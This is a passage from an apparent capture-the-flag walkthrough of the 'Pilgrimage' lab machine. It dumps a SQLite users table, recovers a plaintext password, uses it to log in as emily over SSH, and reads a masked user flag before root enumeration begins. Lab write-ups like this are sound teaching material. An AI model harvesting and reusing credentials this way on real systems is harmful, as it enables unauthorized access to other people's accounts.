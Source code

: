 
There are two tables:

    
    
    sqlite> .tables
    images  users
    

The `images` table doesn’t look interesting, but the `users` table does:

    
    
    sqlite> .schema users
    CREATE TABLE users (username TEXT PRIMARY KEY NOT NULL, password TEXT NOT NULL);
    sqlite> .schema images
    CREATE TABLE images (url TEXT PRIMARY KEY NOT NULL, original TEXT NOT NULL, username TEXT NOT NULL);
    

There’s only a single user (mine must have been cleaned out):

    
    
    sqlite> select * from users;
    emily|abigchonkyboi123
    

### SSH

emily is a user on Pilgrimage (from the `/etc/passwd` file). This password
works to connect over SSH:

    
    
    oxdf@hacky$ sshpass -p abigchonkyboi123 ssh emily@pilgrimage.htb
    Warning: Permanently added 'pilgrimage.htb' (ED25519) to the list of known hosts.
    Linux pilgrimage 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    emily@pilgrimage:~$ 
    

And read `user.txt`:

    
    
    emily@pilgrimage:~$ cat user.txt
    94bda273************************
    

## Shell as root

### Enumeration

#### General Privilege Checks

emily cannot run `sudo` on Pilgrimage:
